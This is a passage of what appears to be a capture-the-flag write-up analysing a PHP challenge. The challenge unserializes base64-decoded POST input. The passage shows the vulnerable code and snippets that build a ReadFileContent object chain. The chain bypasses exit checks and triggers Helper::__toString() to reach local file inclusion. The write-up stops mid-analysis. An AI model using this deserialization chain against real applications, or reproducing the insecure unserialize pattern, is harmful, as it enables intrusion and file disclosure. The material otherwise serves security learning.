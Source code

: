 ```php
    if(isset($_GET['src']))
        highlight_file(__FILE__);
    else
        echo '<a href="?src=">Source</a>';
    
    if(isset($_POST['data']))
        unserialize(base64_decode($_POST['data']));
    
    ?>
```

# Code analyses of `ReadFileContent` class:

## restrictions

1. when constructing an object `check` must be not “CERT” to avoid `exit`  
2. when deconstructing `check` must be “CERT” to avoid `exit`  
3. `checker` global variable should be true, so we can include `$this -> var` .php file to exploit LFI

## Bypasses

1. Create ReadFileContent object with check not equals to CERT
    
```php
$readFileContent = new ReadFileContent("nun", "index"); # check property is not CERT to avoid exit in line 9
```

2. we need to change `check` property after creating the object and serialize the object with the new value equals to “CERT”
    
```php
$readFileContent -> check = "CERT"; # change the check property to CERT, after finishing the constructor
```

3. the only way to change the `checker` global variable is to call `__toString()` function in the Helper class like indicated here
    
```php
function __toString() {
        global $checker;
        $checker = true; # will change the global varible to true 
        return (new ReadFileContent($this->msg,"temp"))->check;
    }
```


# Code analyses of `Helper` class:

## functions
